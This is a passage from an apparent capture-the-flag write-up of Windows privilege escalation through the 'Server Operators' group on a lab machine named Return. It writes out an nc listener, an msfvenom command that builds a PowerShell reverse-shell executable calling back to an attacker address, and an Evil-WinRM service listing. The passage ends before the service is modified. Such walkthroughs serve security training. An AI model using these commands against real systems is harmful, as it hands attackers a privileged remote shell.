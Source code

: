 ## Privilege escalation (Privileged security group)

Members of Active Directory's 'Server Operators' security group can modify,
start and stop any services, including privileged ones. This allows an attacker
to get RCE with the service's privileges.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll use `msfvenom` to create a reverse shell binary.

```sh
❯ msfvenom -p "windows/x64/powershell_reverse_tcp" LHOST="10.10.14.9" LPORT="9001" -f "exe" -o "/workspace/server/revshell.exe"
```

I'll transfer it to Return.

We also need to identify a target service.

```ps1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services
```

```
Path                                                                                                                 Privileges Service
----                                                                                                                 ---------- -------
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```
